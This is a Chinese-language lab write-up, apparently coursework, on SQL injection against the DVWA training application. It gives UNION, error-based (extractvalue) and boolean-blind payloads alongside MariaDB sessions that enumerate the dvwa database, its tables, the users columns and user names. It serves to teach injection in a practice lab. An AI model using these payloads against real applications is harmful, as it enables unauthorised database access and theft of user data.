#### 1. 分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤

​ 前端dvwa- SQL Injection注入页面(DVWA Security更改成low)：

​ a. 使用order by 来判断字段数，SQL Injection 注入框输入 `1' order by 2#` 显示正常，先判断字段数为2

​ b. 继续输入 `1' order by 3#` 显示异常，说明字段数为2

​ c. 继续输入`1' union select 1,2#` 确定显示位

​ d. 继续输入`1' union select database(),version()#`爆出数据库名和版本信息

​ 

​ e. 使用information_schema表来爆出dvwa数据库包含的表 `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#`

​ 

​ f. 爆出user表的字段名 `1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#`

​ 

​ g. 列出first_name数据 `1' union select first_name,user from users#`

​ 

​ 后端数据库操作如下：

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| dvwa               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.006 sec)

MariaDB [(none)]> use dvwa;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.010 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select 1,2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| 1          | 2         |
+------------+-----------+
2 rows in set (0.003 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select 1,2,3;
ERROR 1222 (21000): The used SELECT statements have a different number of columns

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select database(),version();
+------------+---------------------------+
| first_name | last_name                 |
+------------+---------------------------+
| admin      | admin                     |
| dvwa       | 10.3.27-MariaDB-0+deb10u1 |
+------------+---------------------------+
2 rows in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa';
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| admin      | admin           |
| 1          | guestbook,users |
+------------+-----------------+
2 rows in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| admin      | admin                                                                     |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union select first_name,user from users;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | gordonb   |
| Hack       | 1337      |
| Pablo      | pablo     |
| Bob        | smithy    |
+------------+-----------+
5 rows in set (0.000 sec)
```

#### 2. 分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题

前端注入思路，库名->表名->字段，在SQL Injection中输入:

a. 爆库名，得到数据库名 dvwa

`1' and extractvalue(1,concat(0x7e,database()));#`



b. 爆表名users

`1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));#`  得到dvwa库中有两张表

`1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)));#`  得到users表

c. 爆列名字段

`1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')));#` 得到users表中有8个字段

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 0,1)));#`  得到第一个字段名，后续递增7次



`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 1,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 2,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 3,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 5,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 6,1)));#`

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 7,1)));#`

后端mysql执行语句如下：

```bash
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,database()));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa'
MariaDB [dvwa]> select table_name from information_schema.tables where table_schema = 'dvwa';
+------------+
| table_name |
+------------+
| guestbook  |
| users      |
+------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa')));
ERROR 1242 (21000): Subquery returns more than 1 row
MariaDB [dvwa]>
MariaDB [dvwa]> select count(table_name) from information_schema.tables where table_schema = 'dvwa';
+-------------------+
| count(table_name) |
+-------------------+
|                 2 |
+-------------------+
1 row in set (0.000 sec)
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema = 'dvwa')));
ERROR 1105 (HY000): XPATH syntax error: '~2'

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~guestbook'

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~users'

MariaDB [dvwa]> select count(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users';
+--------------------+
| count(column_name) |
+--------------------+
|                  8 |
+--------------------+
1 row in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user_id'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~first_name'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 2,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_name'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 3,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1)));
ERROR 1105 (HY000): XPATH syntax error: '~password'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 5,1)));
ERROR 1105 (HY000): XPATH syntax error: '~avatar'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 6,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_login'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 7,1)));
ERROR 1105 (HY000): XPATH syntax error: '~failed_login'
```

​ 1）在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？

​   extractvalue（XML_document, xpath_string）

​   第一个参数：string格式，为XML文档对象的名称

​   第二个参数：xpath_string（xpath格式的字符串），为XML文档的路径

​   由于'\~'属于字符串string 格式，所以写在参数1位置不报错，'~'不属于文档路径格式，不属于xpath语法格式，因此写在参数2位置报出xpath语法错误。

​ 2）报错注入中，为什么要突破单引号的限制，如何突破？

​   SQL注入非常关键的一步就是让引号闭合和跳出引号，无法跳出引号，那么输入的内容就永远在引号里，输入的东西就永远是字符串，很显然这不符合SQL注入的要求。可以使用16进制代替特殊符号，规避单引号的限制。

​ 3）在报错注入过程中，为什么要进行报错，是哪种类型的报错？

​   利用数据库报错来进行判断是否存在注入点，不符合数据库语法规则就会产生报错。报错注入过程中，函数语法的报错会将查询的结果放在报错信息里，即函数报错时会解析SQL语句，这样就得到我们想要的数据库信息。属于函数语法的报错。

#### 3. 任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤

​ a. 判断库名的长度，使用二分法判断得出数据库名长度为4

```
1' and length(database())>10;# MISSING 
1' and length(database())>5;# MISSING 
1' and length(database())>3;# exists 
1' and length(database())=4;# exists
```

​ b. 猜测数据库库名，使用substr()函数和ascii码，把字符转换成数字来进行比较逻辑判断。

```
1' and ascii(substr(database(),1,1))>88;# exists 
1' and ascii(substr(database(),1,1))>98;# exists 
1' and ascii(substr(database(),1,1))>100;# MISSING 
1' and ascii(substr(database(),1,1))=100;# exists
```

ascii码等于100，得出第一个字母为d

```
1' and ascii(substr(database(),2,1))>100;# exists 
1' and ascii(substr(database(),2,1))>150;# MISSING 
1' and ascii(substr(database(),2,1))>120;# MISSING 
1' and ascii(substr(database(),2,1))>110;# exists
1' and ascii(substr(database(),2,1))>115;# exists
1' and ascii(substr(database(),2,1))>118;# MISSING
1' and ascii(substr(database(),2,1))=118;# exists
```

ascii码等于118，得出第二个字母为v

```
1' and ascii(substr(database(),3,1))>100;# exists 
1' and ascii(substr(database(),3,1))>120;# MISSING 
1' and ascii(substr(database(),3,1))>110;# exists
1' and ascii(substr(database(),3,1))>115;# exists
1' and ascii(substr(database(),3,1))>118;# exists
1' and ascii(substr(database(),3,1))=119;# exists 
```

ascii码等于119，得出第三个字母为w

```
1' and ascii(substr(database(),4,1))>100;# MISSING
1' and ascii(substr(database(),4,1))>50;# exists
1' and ascii(substr(database(),4,1))>80;# exists
1' and ascii(substr(database(),4,1))>90;# exists
1' and ascii(substr(database(),4,1))>95;# exists
1' and ascii(substr(database(),4,1))>99;# MISSING
1' and ascii(substr(database(),4,1))>98;# MISSING
1' and ascii(substr(database(),4,1))>97;# MISSING
1' and ascii(substr(database(),4,1))>96;# exists
1' and ascii(substr(database(),4,1))=97;# exists
```

ascii码等于97，得出第三个字母为a

获取到当前数据库名称为dvwa

​ c.猜测表的个数，如下得到dvwa中有两个表。

```
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')>1;# exists 
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')>2;# MISSING 
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2;# exists
```

​ d. 猜解表的长度，并猜解表名

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10;# MISSING 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>5;# exists 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>8;# exists 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=9;# exists
第一个表名长度为9，继续猜表名
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 105;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;# exists
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 103;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) =103;# exists
得到第一个表名的第一个字母为g，继续使用二分法猜解
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),2,1)) =117;# exists  对应字母u
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),3,1)) =101;# exists  对应字母e
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),4,1)) =115;# exists  对应字母s
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),5,1)) =116;# exists   对应字母t
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),6,1)) =98;# exists    对应字母b
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),7,1)) =111;# exists    对应字母o
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),8,1)) =111;# exists    对应字母o
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),9,1)) =107;# exists    对应字母k

得出数据库dvwa中第一个表为guestbook
```

按如上方法猜第二个表名：

```
猜解表二的长度
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>10;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>5;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>3;# exists
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=4;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=5;# exists
得到表二长度为5
开始猜解表二的表名字母：
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),1,1)) =117;# exists 对应字母u
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),2,1)) =115;# exists 对应字母s
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),3,1)) =101;# exists 对应字母e
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),4,1)) =114;# exists 对应字母r
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),5,1)) =115;# exists 对应字母s
得到第二张表的表名是 users
```

​ e. 猜解表中的字段名，以dvwa中的users表为例：

```
猜解users表中的字段数量
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>10;# MISSING 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>5;# exists 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>8;# MISSING 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8;# exists
表users中有八个字段
```

```
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;# exists 说明有字段password
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='user')=1;#  exists 说明有字段user
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='first_name')=1;# exists 说明有字段first_name

```

​ 后端数据库执行的命令如下：

```bash
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>5;
Empty set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>4;
Empty set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>3;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())=4;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)
MariaDB [dvwa]> select substr(database(),1,1);
+------------------------+
| substr(database(),1,1) |
+------------------------+
| d                      |
+------------------------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select substr(database(),2,1);
+------------------------+
| substr(database(),2,1) |
+------------------------+
| v                      |
+------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select substr(database(),3,1);
+------------------------+
| substr(database(),3,1) |
+------------------------+
| w                      |
+------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select substr(database(),4,1);
+------------------------+
| substr(database(),4,1) |
+------------------------+
| a                      |
+------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr(database(),1,1));
+-------------------------------+
| ascii(substr(database(),1,1)) |
+-------------------------------+
|                           100 |
+-------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr(database(),1,1))>50;
+----------------------------------+
| ascii(substr(database(),1,1))>50 |
+----------------------------------+
|                                1 |
+----------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr(database(),1,1))>100;
+-----------------------------------+
| ascii(substr(database(),1,1))>100 |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select (select count(table_name) from information_schema.tables where table_schema='dvwa') >1;
+----------------------------------------------------------------------------------------+
| (select count(table_name) from information_schema.tables where table_schema='dvwa') >1 |
+----------------------------------------------------------------------------------------+
|                                                                                      1 |
+----------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select (select count(table_name) from information_schema.tables where table_schema='dvwa') >2;
+----------------------------------------------------------------------------------------+
| (select count(table_name) from information_schema.tables where table_schema='dvwa') >2 |
+----------------------------------------------------------------------------------------+
|                                                                                      0 |
+----------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select (select count(table_name) from information_schema.tables where table_schema='dvwa') =2;
+----------------------------------------------------------------------------------------+
| (select count(table_name) from information_schema.tables where table_schema='dvwa') =2 |
+----------------------------------------------------------------------------------------+
|                                                                                      1 |
+----------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select table_name from information_schema.tables where table_schema = 'dvwa';
+------------+
| table_name |
+------------+
| guestbook  |
| users      |
+------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1;
+------------+
| table_name |
+------------+
| guestbook  |
+------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1));
+--------------------------------------------------------------------------------------------------+
| length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) |
+--------------------------------------------------------------------------------------------------+
|                                                                                                9 |
+--------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.003 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 10;
Empty set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) > 8;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1)) =9;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1);
+------------------------------------------------------------------------------------------------------+
| substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1) |
+------------------------------------------------------------------------------------------------------+
| g                                                                                                    |
+------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1));
+-------------------------------------------------------------------------------------------------------------+
| ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) |
+-------------------------------------------------------------------------------------------------------------+
|                                                                                                         103 |
+-------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;
+-------------------------------------------------------------------------------------------------------------------+
| ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100 |
+-------------------------------------------------------------------------------------------------------------------+
|                                                                                                                 1 |
+-------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id =1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id =1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 105;
Empty set (0.000 sec)

MariaDB [dvwa]> select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+--------------------+
| count(column_name) |
+--------------------+
|                  8 |
+--------------------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>10;
Empty set (0.005 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>8;
Empty set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>7;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8;
